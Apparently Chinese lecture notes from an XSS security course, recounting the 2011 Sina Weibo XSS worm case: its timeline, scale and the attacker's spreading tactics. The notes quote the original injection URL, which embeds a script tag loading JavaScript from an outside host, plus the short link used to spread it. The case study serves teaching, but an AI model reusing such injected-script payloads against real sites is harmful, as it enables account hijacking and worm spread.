 # XSS – 经典案例

![](https://image.201068.xyz/assets%5Cassets%5C%E4%B8%AD%E8%BD%A6%E5%9F%B9%E8%AE%ADXSS%E8%AF%BE%E7%A8%8B%E8%AE%B2%E4%B9%89-%E5%88%98%E9%87%8E-2024112760.jpg)

<span style="color:#262626">在2011年6月28日晚，</span>  <span style="color:#262626">\*</span>  <span style="color:#262626">浪微博遭遇了一次严重的XSS安全事件。在不到一个小时的时间，超过3万微博用户的账户自动发送了一系列异常信息，例如："郭美</span>  <span style="color:#262626">\*</span>  <span style="color:#262626">事件背后的未公开细节"、"建</span>  <span style="color:#262626">\*</span>  <span style="color:#262626">大业中的视觉错误"、"触动女性心灵的100句诗歌精选"、"高清版3D肉</span>  <span style="color:#262626">\*</span>  <span style="color:#262626">团种子"，以及"疑似神仙眷侣的惊人揭秘"，还有"范</span>  <span style="color:#262626">\*\*</span>  <span style="color:#262626">艳照流出的惊人爆料"，并且这些用户还自动关注了一个名为hellosamy的账号。</span>

<span style="color:#262626">     </span>  <span style="color:#262626">事件的经过线索如下：</span>

<span style="color:#262626">     </span>  <span style="color:#262626"> __20:14__ </span>  <span style="color:#262626"> __   __ </span>  <span style="color:#262626"> __许多具有认证标识的用户不幸被病毒感染，开始转发带有恶意蠕虫的帖子。__ </span>

<span style="color:#262626">     </span>  <span style="color:#262626"> __20:30__ </span>  <span style="color:#262626"> __   __ </span>  <span style="color:#262626"> __受影响的用户试图访问一个网站时，发现该页面已经无法打开，显示出病毒的痕迹。__ </span>

<span style="color:#262626">     </span>  <span style="color:#262626"> __20:32__ </span>  <span style="color:#262626"> __   __ </span>  <span style="color:#FF0000"> __hellosamy__ </span>  <span style="color:#262626"> __用户的账户也因安全问题暂时无法访问。__ </span>

<span style="color:#262626">     </span>  <span style="color:#262626"> __21:02__ </span>  <span style="color:#262626"> __   \*__ </span>  <span style="color:#262626"> __浪官方漏洞修补完毕。__ </span>

<span style="color:#262626"> </span>  <span style="color:#262626">    </span>  <span style="color:#FF0000"> __影响有多大：32961（这位hellosamy在帐号被封前的好友数量）。__ </span>

---

只有短短的不到20多分的时间，影响非常的大。

官方处理应急响应还是非常迅速的,所以看出来网络安全领域里应急响应的重要性。

![](https://image.201068.xyz/assets%5Cassets%5C%E4%B8%AD%E8%BD%A6%E5%9F%B9%E8%AE%ADXSS%E8%AF%BE%E7%A8%8B%E8%AE%B2%E4%B9%89-%E5%88%98%E9%87%8E-2024112761.png)

![](https://image.201068.xyz/assets%5Cassets%5C%E4%B8%AD%E8%BD%A6%E5%9F%B9%E8%AE%ADXSS%E8%AF%BE%E7%A8%8B%E8%AE%B2%E4%B9%89-%E5%88%98%E9%87%8E-2024112762.png)

---

历史快照，网上找到的2011年pc端的一些截图，当年的智能手机正处于爆发初期，大家还是都集中在PC端去网上冲浪、游戏等等。
这些照片大家可以看一下，图非常模糊，都是一些及其炸裂、惊爆眼球的微博文章。
大家可以着重看一下这个链接，等会我们会详解一下黑客的操作行为。

1\.黑客发现漏洞，并通过对\*浪微博某个页面 http://weibo\.com/XX/XX 的一个URL注入了可控制的js脚本。

2\.通过 <span style="color:#FF0000">http://163\.fm/PxZHoxn</span> 短链接服务，将链接指向http://weibo\.com/pub/star/g/xyyyd%22%3E%3Cscript%20src=//www\.2kt\.cn/images/t\.js%3E%3C/script%3E?type=update （ <span style="color:#FF0000">\<script src=//www\.2kt\.cn/images/t\.js>\</script></span> ）

3\.黑客自己让自己“中毒”，发微博并且发私信的方式诱惑用户去点击脚本链接，尤其是针对V标认证的用户，如果此类用户中毒，必然可以实现大范围、快速的传播。
